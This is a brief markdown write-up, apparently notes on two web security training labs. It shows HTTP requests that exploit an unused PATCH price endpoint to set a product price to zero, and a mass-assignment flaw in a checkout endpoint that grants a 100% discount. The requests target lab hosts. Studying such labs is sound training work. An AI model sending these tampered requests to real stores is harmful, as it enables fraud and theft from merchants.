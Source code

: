 # API Testing

## Finding and exploiting an unused API endpoint

The `price` endpont not only allows the `GET` methode but also `PATCH` 

```
PATCH /api/products/1/price HTTP/2
Host: 0ad10068036333308060530f007800d6.web-security-academy.net
Cookie: session=f1t8Tfqc7LY7RwwMuWYwYG5mA2CxkpFc
[...]
Content-Type: application/json;charset=UTF-8
Content-Length: 12

{"price": 0}
```

## Exploiting a mass assignment vulnerability

It is possible to send a `POST` request to the `checkout` endpoint with 100% 
discount.

```
POST /api/checkout HTTP/2
Host: 0af0002804d0d47e86ff4f3200e200aa.web-security-academy.net
Cookie: session=42Y5LbakIMHg3C8i7egh1Kt9P1E6UWD9
Content-Type: application/json;charset=UTF-8
[...]

{"chosen_discount":{"percentage": 100},"chosen_products":[{"product_id":"1","name":"Lightweight \"l33t\" Leather Jacket","quantity":1,"item_price":133700}]}
```
